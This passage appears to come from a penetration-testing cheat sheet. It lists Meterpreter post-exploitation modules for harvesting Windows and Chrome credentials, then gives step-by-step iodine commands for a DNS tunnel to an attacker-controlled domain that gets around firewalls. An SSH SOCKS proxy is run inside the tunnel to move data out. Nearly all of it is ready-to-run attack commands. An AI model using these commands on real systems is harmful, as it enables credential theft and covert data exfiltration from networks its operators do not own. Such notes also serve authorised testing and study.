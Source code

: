 - Search for credentials

```bash
meterpreter> run post/windows/gather/credentials/* # check which script matches your case
meterpreter> run post/windows/gather/enum_chrome # check other possible gathering targets
meterpreter> run post/multi/gather/* # other gather scripts
```

### Data exfiltration

> This method may bypass firewalls and other restricting mechanisms

Via `DNS` tunneling we can establish connections using the `DNS` protocol, which is usually not as restricted as the rest

Requirements:
- Controlled over the web reachable domain (name arbitrary or tailored for the target)
- Server listening on the domain name used
- DNS control in that domain
- Tool for DNS tunneling, like [iodine](https://github.com/yarrick/iodine)

1. Check if DNS is blocked

```bash
ping www.yourdomain.com
# if resolved to ip but icmp not packets lost, may imply DNS works but ICMP blocked
```

2. Start iodine on online server in the web

```bash
# server
iodine -u <user> -P '<password>' -f 10.0.0.1 <ns.of.controlled.domain.com> # -f marking endpoint ip of tunnel
```

3. Start iodine client on the internal network

```bash
iodine -P '<password>' <ns.of.controlled.domain.com> -T CNAME -r -f
```

-> If successfull `DNS` tunnel established (check interfaces with `ip a`, new tunnel interface should exist)

Create an ssh tunnel inside the `DNS` tunnel for a socks proxy.

```bash
ssh user@<remoteIP> -D<dns01IP>:1234 -N -C # ssh tunnel to the remote endpoint through our local dns01 interface that represents the dns tunnel
```

Internet now accessible over the ssh socks proxy inside the dns tunnel

**ALWAYS pipe the traffic over an ssh tunnel to avoid MITM scenarios where the data is captured and decoded!**

## Mapping the internal network
